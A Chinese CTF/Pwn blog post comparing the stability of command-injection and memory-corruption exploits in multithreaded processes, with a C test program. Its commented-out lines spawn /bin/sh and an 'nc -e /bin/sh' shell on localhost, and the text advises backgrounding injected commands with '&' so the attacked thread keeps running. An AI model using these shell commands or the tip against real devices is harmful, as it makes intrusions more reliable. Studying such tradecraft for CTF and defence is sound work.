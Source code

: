 ```yaml
---
title: Getshell稳定：命令注入 > 内存破坏
date: 2020-12-13 00:00:00
categories:
- CTF/Pwn
tags: 
---
```


> 不要瞧不起命令注入，因为你不得不承认，命令注入型漏洞就是要比内存破坏型漏洞要稳。在实际的攻击中，我们发现的漏洞代码的运行实体可能是单蹦儿的一个进程，也可能是某个进程的一个线程。如果攻击发生在某个线程中，对其他线程，以及线程所属的进程会不有影响呢？在这种情况下，内存破坏漏洞的表现怎么样呢？

使用如下测试代码，每次可以打开其中一个注释：

```
➜  gcc test.c -lpthread -o test && ./test
```

```c
#include <stdio.h>
#include <pthread.h>
#include <unistd.h>
#include <stdlib.h>

void *thread1(void *arg){
//    system("/bin/sh");
//    system("/bin/sh &");
//    system("nc -e /bin/sh 127.0.0.1 8888");
//    system("nc -e /bin/sh 127.0.0.1 8888 &")
    while(1){
        printf("thread1         is running\n");
        sleep(1);
    }
}

void *thread2(void *arg){
//    execve("/bin/sh",NULL,NULL);
    while(1){
        printf("thread2         is running\n");
        sleep(1);
    }
}

int main(){
    getchar();
    pthread_t thid1,thid2;
    pthread_create(&thid1,NULL,(void*)thread1,NULL);
    pthread_create(&thid2,NULL,(void*)thread2,NULL);
//    int a = *(int *)0;
    while(1){
        printf("main thread     is running\n");
        sleep(1);
    }
    return 0;
}
```


1. 内存破坏无论发生在哪个线程中，若触发SIGSEGV，整个进程就会崩溃，并且一般程序不会注册SIGSEGV的信号处理函数
2. system函数命令注入，可能会使得被攻击的线程卡住，其他线程正常运行，因为system函数会等待其执行命令的返回。

在实际攻击中，我们发现用命令注入的漏洞攻击某设备的某个进程，无论我的exp是否有失误，设备不用重启，漏洞进程不会被打崩溃，也不会卡死。（这事在Web手看起来不是理所当然的么！）

至于原因当然和Web手攻击的情景是一样的，就像apache，会为连进来的请求建立新的进程。或者像CTF中Pwn题的部署方式，即socat和xinetd。分析发现，我们的每次攻击都是在目标进程新启动的线程中触发的，所以大不了就是这个线程卡死，再次攻击又是一个新的线程。并且开发在写线程的时候，为的就是卡死没事，这种情景在网络数据处理的时候会很常见。所以为了避免system函数卡死，拼接进去的命令注入可以让其在后台运行(&)，这样system函数即可马上返回，也不影响被攻击的线程。

但是如果漏洞类型是内存破坏漏洞，即使他出现在某个线程里，只要你稍不留神，触发了SIGSEGV，整个进程就完蛋了。如果该进程没有守护进程让他再次等待被你攻击，那也就只有重启设备了。